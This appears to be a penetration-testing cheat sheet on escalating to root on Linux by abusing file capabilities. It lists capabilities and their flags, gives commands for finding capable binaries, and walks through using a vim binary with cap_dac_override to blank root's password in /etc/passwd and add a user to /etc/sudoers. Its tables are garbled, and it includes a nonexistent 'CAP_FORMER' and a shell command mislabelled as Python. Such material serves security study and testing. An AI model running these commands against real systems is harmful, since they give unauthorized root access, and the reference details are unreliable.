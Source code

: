 [https://steflan-security.com/linux-privilege-escalation-exploiting-capabilities/](https://steflan-security.com/linux-privilege-escalation-exploiting-capabilities/)

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)

Restrict a binary to only certain actions using setcap

```bash
sudo setcap cap_net_bind_service=+ep /usr/bin/vim.basic
```

|**Capability**|**Desciption**|
|---|---|
|`cap_sys_admin`|Allows to perform actions with administrative privileges, such as modifying system files or changing system settings.|
|`cap_sys_chroot`|Allows to change the root directory for the current process,|
|allowing it to access files and directories that would otherwise be||
|inaccessible.||
|`cap_sys_ptrace`|Allows to attach to and debug other processes, potentially allowing|
|it to gain access to sensitive information or modify the behavior of||
|other processes.||
|`cap_sys_nice`|Allows to raise or lower the priority of processes, potentially|
|allowing it to gain access to resources that would otherwise be||
|restricted.||
|`cap_sys_time`|Allows to modify the system clock, potentially allowing it to|
|manipulate timestamps or cause other processes to behave in unexpected||
|ways.||
|`cap_sys_resource`|Allows to modify system resource limits, such as the maximum number|
|of open file descriptors or the maximum amount of memory that can be||
|allocated.||
|`cap_sys_module`|Allows to load and unload kernel modules, potentially allowing it to|
|modify the operating system's behavior or gain access to sensitive||
|information.||
|`cap_net_bind_service`|Allows to bind to network ports, potentially allowing it to gain|
|access to sensitive information or perform unauthorized actions.||

|**Capability Values**|**Desciption**|
|---|---|
|`=`|This value sets the specified capability for the executable, but|
|does not grant any privileges. This can be useful if we want to clear a||
|previously set capability for the executable.||
|`+ep`|This value grants the effective and permitted privileges for the|
|specified capability to the executable. This allows the executable to||
|perform the actions that the capability allows but does not allow it to||
|perform any actions that are not allowed by the capability.||
|`+ei`|This value grants sufficient and inheritable privileges for the|
|specified capability to the executable. This allows the executable to||
|perform the actions that the capability allows and child processes||
|spawned by the executable to inherit the capability and perform the same||
|actions.||
|`+p`|This value grants the permitted privileges for the specified|
|capability to the executable. This allows the executable to perform the||
|actions that the capability allows but does not allow it to perform any||
|actions that are not allowed by the capability. This can be useful if we||
|want to grant the capability to the executable but prevent it from||
|inheriting the capability or allowing child processes to inherit it.||
|||

Several Linux capabilities can be used to escalate a user's privileges to `root`, including:

|**Capability**|**Desciption**|
|---|---|
|`CAP_SETUID`|Allows a process to set its effective user ID, which can be used to gain the privileges of another user, including the `root` user.|
|`CAP_SETGID`|Allows to set its effective group ID, which can be used to gain the privileges of another group, including the `root` group.|
|`CAP_SYS_ADMIN`|This capability provides a broad range of administrative privileges,|
|including the ability to perform many actions reserved for the `root` user, such as modifying system settings and mounting and unmounting file systems.||

The following capabilities are particularly dangerous and should be investigated further if found enabled on a system:

- CAP_CHOWN
- CAP_DAC_OVERRIDE
- CAP_DAC_READ_SEARCH
- CAP_SETUID
- CAP_SETGID
- CAP_NET_RAW
- CAP_SYS_ADMIN
- CAP_SYS_PTRACE
- CAP_SYS_MODULE
- CAP_FORMER
- CAP_SETFCAP

Find setcap capabilities

```bash
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \\;
getcap -r / 2>/dev/null
```

Have access to an account but no access to cap_sys_admin?

```bash
getcap /usr/bin/vim.basic
```

VIM can run as admin and edit files

```bash
/usr/bin/vim.basic /etc/passwd
```

```bash
echo -e ':%s/^root:[^:]*:/root::/\\nwq' | /usr/bin/vim.basic -es /etc/passwd
```

```bash
cat /etc/passwd | head -n1
root::0:0:root:/root:/bin/bash
```

VIM has the capability: cap_dac_override+eip

```bash
/usr/bin/vim.basic = cap_dac_override+eip
```

You can write to ANY file bypassing privs

```bash
vim /etc/sudoers
```

add your user

```bash
hacker	ALL=(ALL:ALL) ALL
```

Now you can run sudo

```python
getcap -r / 2>/dev/null
```